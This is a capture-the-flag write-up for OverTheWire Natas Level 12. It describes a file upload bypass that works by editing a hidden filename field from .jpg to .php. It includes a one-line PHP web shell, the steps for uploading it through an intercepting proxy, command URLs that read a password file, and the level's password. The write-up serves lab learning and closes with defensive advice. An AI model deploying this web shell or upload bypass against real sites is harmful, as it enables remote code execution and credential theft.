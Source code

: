 # 🕵️ Natas - Level 12 (🇺🇸 English)  
*Date: 2025-06-03*  
*Difficulty: Medium*  
*Category: Web*   

---

## 🎯 Objective

The objective of this challenge is to identify and exploit a file upload vulnerability that allows client-side filename manipulation, resulting in Remote Code Execution (RCE) to obtain the next level password (Natas13).  

---

## 🔎 Analysis

- The web application at `http://natas12.natas.labs.overthewire.org/` offers a JPEG image upload functionality with a 1KB size limit.  
- Common extension bypass attempts (e.g. `.php.jpg`, `test.php%00.jpg` - null byte) did not work, as the server always appends `.jpg` to the final filename, invalidating execution as PHP.  
- Analysis of the HTML page's source code revealed a hidden field in the upload form: `<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />`.  
- This hidden field pre-defines the name of the file that will be saved on the server, including the `.jpg` extension, before the user even selects the file for upload.  
- The vulnerability lies in the fact that the final file name is controlled by a pre-populated value on the client side (via the `hidden` field), which can be intercepted and manipulated.  
- Our goal is to change the extension from `.jpg` to `.php` in the `filename` field of the HTTP request so that the server saves our file with the correct extension.  
- The payload to be sent will be a simple PHP shell: `<?php system($_GET['cmd']); ?>`, allowing the execution of commands via the `cmd` parameter in the URL.
  
---

## 🧱 Steps

1. Access the Application: Navigate to `http://natas12.natas.labs.overthewire.org/`.   
2. Test the Upload: Try to upload a file to observe the server behavior (renaming it to `.jpg`).   
3. Analyze the Source Code: Inspect the HTML code of the upload page to identify the `input type="hidden" name="filename"` field.   
4. Prepare the Payload: Create a PHP file (e.g. `bypass.php`) with the content `<?php system($_GET['cmd']); ?>`.   
5. Intercept the Request: Using the `Burp Suite` proxy tool to capture the file upload request.  
6. Manipulate the File Name: In the intercepted request, locate the `filename` parameter and change its extension to `.php` (ex: c36r0bea02.jpg to c36r0bea02.php).  
7. Send the Request: Send the modified request to the server.  
8. Verify Upload: The server will return a message confirming the upload of the file with the .php extension (e.g.: The file `upload/dnfplwi4tz.php` has been uploaded).  
9. Access the Web Shell: Navigate to the URL of the newly uploaded PHP file (e.g.: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php`). Observe the error messages ("Notice: Undefined index: cmd", "Warning: system(): Cannot execute a blank command"), which confirm that PHP is interpreting the file.  
10. Run Commands: Test the execution of commands by adding the cmd parameter to the URL (e.g. `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php?cmd=pwd`). Confirm the RCE.  
11. Get the Password: Run the command to read the Natas13 password file: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php?cmd=cat%20/etc/natas_webpass/natas13`.

---

## 🔑 Password Found

```
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```

---

## ✅ Conclusion

The vulnerability was successfully exploited by manipulating the filename field of a hidden input in the upload form, which was filled out on the client side. This allowed bypassing server-side extension validation and uploading from a PHP shell. Remote code execution was confirmed and the password for the next level was obtained. This case highlights the danger of relying on any type of client-side input control for application security, especially for upload functionality.

---

## 🧪 Commands Used


Access to web shell (after upload and name manipulation):  
`http://natas12.natas.labs.overthewire.org/upload/[random_name].php`
Verify RCE:  
`http://natas12.natas.labs.overthewire.org/upload/[random_name].php?cmd=pwd`
Get Natas13 password:  
`http://natas12.natas.labs.overthewire.org/upload/[random_name].php?cmd=cat%20/etc/natas_webpass/natas13`

---

## 🧠 Observations

- Server-Side Validation is Crucial: Never rely on client-side validations (JavaScript, hidden HTML fields). Always re-validate all input on the server side.   
- Whitelist for Extensions and MIME Types: Instead of blacklists, use whitelists for file extensions and MIME types allowed for upload.   
- Secure File Renaming: When renaming files, use a randomly generated name and a server-validated extension, without allowing any user input in the final name or extension.   
- Upload Isolation: Files uploaded by users should be stored in a directory outside the web root or configured to not allow script execution.  

---

## 📎 Scripts Developed

[bypass.php](https://github.com/ItacarambiSec/Projects/blob/main/Ctf-scripts/Overthewire_natas/bypass.md): A simple PHP shell (`<?php system($_GET['cmd']); ?>`) used for remote command execution.

---

<p align="center"> <a href="../Natas11/Readme.md">⬅️ Previous</a> • <a href="../Natas13/Readme.md">Next ➡️</a> </p>
